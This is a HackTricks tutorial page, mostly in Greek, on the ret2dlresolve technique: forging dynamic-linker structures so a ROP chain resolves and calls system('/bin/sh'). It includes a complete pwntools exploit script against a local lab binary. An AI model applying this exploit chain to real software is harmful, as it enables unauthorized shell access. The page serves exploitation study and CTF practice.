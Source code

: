 # Ret2dlresolve

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Όπως εξηγείται στη σελίδα σχετικά με [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) και [**Relro**](../common-binary-protections-and-bypasses/relro.md), τα δυαδικά αρχεία χωρίς Full Relro θα επιλύσουν σύμβολα (όπως διευθύνσεις σε εξωτερικές βιβλιοθήκες) την πρώτη φορά που χρησιμοποιούνται. Αυτή η επίλυση συμβαίνει καλώντας τη συνάρτηση **`_dl_runtime_resolve`**.

Η συνάρτηση **`_dl_runtime_resolve`** παίρνει από τη στοίβα αναφορές σε κάποιες δομές που χρειάζεται για να επιλύσει το καθορισμένο σύμβολο.

Επομένως, είναι δυνατό να **ψευδοποιηθούν όλες αυτές οι δομές** ώστε η δυναμική σύνδεση να επιλύσει το ζητούμενο σύμβολο (όπως η συνάρτηση **`system`**) και να την καλέσει με μια ρυθμισμένη παράμετρο (π.χ. **`system('/bin/sh')`**).

Συνήθως, όλες αυτές οι δομές ψευδοποιούνται κάνοντας μια **αρχική αλυσίδα ROP που καλεί `read`** σε μια εγγράψιμη μνήμη, στη συνέχεια οι **δομές** και η συμβολοσειρά **`'/bin/sh'`** περνούν ώστε να αποθηκευτούν από την ανάγνωση σε μια γνωστή τοποθεσία, και στη συνέχεια η αλυσίδα ROP συνεχίζει καλώντας **`_dl_runtime_resolve`** με τη διεύθυνση του `$'/bin/sh'`.

{% hint style="success" %}
Αυτή η τεχνική είναι χρήσιμη ειδικά αν δεν υπάρχουν gadgets syscall (για να χρησιμοποιηθούν τεχνικές όπως [**ret2syscall**](rop-syscall-execv.md) ή [SROP](srop-sigreturn-oriented-programming.md)) και δεν υπάρχουν τρόποι να διαρρεύσουν διευθύνσεις libc.
{% endhint %}

You can find a better explanation about this technique in the second half of the video:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Structures

Είναι απαραίτητο να ψευδοποιηθούν 3 δομές: **`JMPREL`**, **`STRTAB`** και **`SYMTAB`**. Έχετε μια καλύτερη εξήγηση για το πώς κατασκευάζονται αυτές στο [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Attack Summary

1. Γράψτε ψευδείς δομές σε κάποια τοποθεσία
2. Ρυθμίστε το πρώτο επιχείρημα της system (`$rdi = &'/bin/sh'`)
3. Ρυθμίστε στη στοίβα τις διευθύνσεις στις δομές για να καλέσετε **`_dl_runtime_resolve`**
4. **Καλέστε** `_dl_runtime_resolve`
5. **`system`** θα επιλυθεί και θα κληθεί με `'/bin/sh'` ως επιχείρημα

## Example

You can find an [**example of this technique here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **containing a very good explanation of the final ROP chain**, but here is the final exploit used:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
## Αναφορές

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
